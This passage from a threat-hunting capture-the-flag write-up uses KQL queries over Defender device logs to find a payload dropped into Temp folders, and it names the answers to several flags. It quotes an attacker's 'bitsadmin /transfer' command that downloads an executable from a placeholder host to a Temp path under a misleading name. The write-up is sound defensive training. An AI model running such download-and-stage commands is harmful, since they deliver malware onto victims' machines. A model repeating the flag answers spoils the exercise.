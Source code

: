 🧠 **Thought process:** I simply followed the hint and I got a straight answer in the logs.

<img width="250" src="https://github.com/user-attachments/assets/fd161361-da91-49b7-b3b6-10a559c48896"/>

**Answer: "bitsadmin.exe" /transfer job1 https://example.com/crypto_toolkit.exe C:\Users\MICH34~1\AppData\Local\Temp\market_sync.exe**

---

## 🟩 Flag 6 – Suspicious Payload Deployment

**Objective:**

Identify dropped executable payloads that do not align with baseline software.

**What to Hunt:**

New files placed in Temp or uncommon locations, especially with misleading names.

**Thought:**

Payloads must land before they run. Watch Temp folders for staging signs.

**Hint:**

1. Book of financial accounts

 🕵️ **Identify the suspicious program**

Query used:

```
DeviceFileEvents
| where DeviceName == "michaelvm"
| where Timestamp between (datetime(2025-06-15T00:00:00Z) .. datetime(2025-06-17T00:00:00Z))
| where FileName endswith ".exe"
| where FolderPath has_any ("\\Temp\\", "\\AppData\\", "\\ProgramData\\", "\\Users\\Public\\")
| project Timestamp, FileName, FolderPath, SHA256, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by Timestamp asc
```

🧠 **Thought process:** I sorted the results by file name, that way it was easy to sift through the results and find the odd one out.

<img width="400" src="https://github.com/user-attachments/assets/8f2dce56-934b-4bd4-95b2-32f67088554c"/>

**Answer: ledger_viewer.exe**

---

## 🟩 Flag 7 – HTA Abuse via LOLBin

**Objective:**

Detect execution of HTML Application files using trusted Windows tools.

**What to Hunt:**
